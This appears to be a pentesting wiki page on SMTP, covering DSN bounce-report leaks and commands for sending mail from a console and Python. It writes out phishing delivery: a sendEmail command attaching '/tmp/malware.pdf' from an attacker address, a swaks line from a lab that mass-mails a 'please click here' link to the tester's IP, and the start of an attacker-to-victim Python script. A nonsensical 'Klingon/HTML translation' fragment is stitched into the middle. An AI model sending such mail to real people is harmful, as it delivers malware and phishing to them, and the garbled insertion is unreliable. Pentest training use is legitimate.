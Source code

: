 **vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/" %}

## DSN Reports

**Delivery Status Notification Reports**: If you send an **email** to an organisation to an **invalid address**, the organisation will notify that the address was invalided sending a **mail back to you**. **Headers** of the returned email will **contain** possible **sensitive information** (like IP address of the mail services that interacted with the reports or anti-virus software info).

## [Commands](smtp-commands.md)

### Sending an Email from linux console
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a /tmp/malware.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```
### Sending an Email with Python

#### English Translation:

### Sending an Email with Python

#### Klingon Translation:

### Email yIlo' Python Daq

#### HTML Translation:

<h3>Sending an Email with Python</h3>
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = ""
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"
```